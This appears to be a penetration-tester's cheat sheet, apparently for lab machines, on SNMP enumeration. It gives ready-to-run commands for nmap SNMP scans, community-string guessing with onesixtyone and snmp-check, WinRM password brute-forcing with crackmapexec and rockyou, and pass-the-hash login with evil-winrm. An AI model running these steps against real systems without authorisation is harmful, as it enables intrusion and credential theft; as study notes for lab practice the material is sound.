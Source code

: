 **SNMP (Simple Network Management Protocol)** lets devices (like servers, routers, etc.) share info about themselves — like running processes, users, or system details. It's mainly used by admins to monitor systems.

`- `This will give you the username password or any hint for login`

# Commands 

### Enummeration (nmap)

```bash
# Scan UDP 161 with SNMP scripts
nmap -sU -p161 --script "snmp-*" <IP>

# Scan SNMP ports 161,162 with version and process/netstat scripts
nmap -n -vv -sV -sU -Pn -p161,162 --script=snmp-processes,snmp-netstat <IP>
```

### Enummeration
1. `onesixtyone` is a **tool that scans for SNMP access**.
It tries a list of **common SNMP "passwords" (called community strings)** to see if the device will respond.
```bash
onesixtyone 10.10.156.82 -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt
```
2. if `onesixtyone` identified any device/string  then We can then run this with snmp-check to dump all available SNMP information.
```bash
snmp-check -c openview 10.10.140.97
```
3. Looking through the results if we find a non default username we can bruteforce it 

```
crackmapexec winrm 10.10.140.97 -u Jareth -p /usr/share/wordlists/rockyou.txt | grep '(Pwn3d!)'
```

4. if you found creds then connect
```bash
evil-winrm -u administrator -p aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a -i 10.10.140.97
```

### Connect
```bash
# Use found creds to login to Windows via WinRM
evil-winrm -i <IP> -u 'username' -p 'password'
```
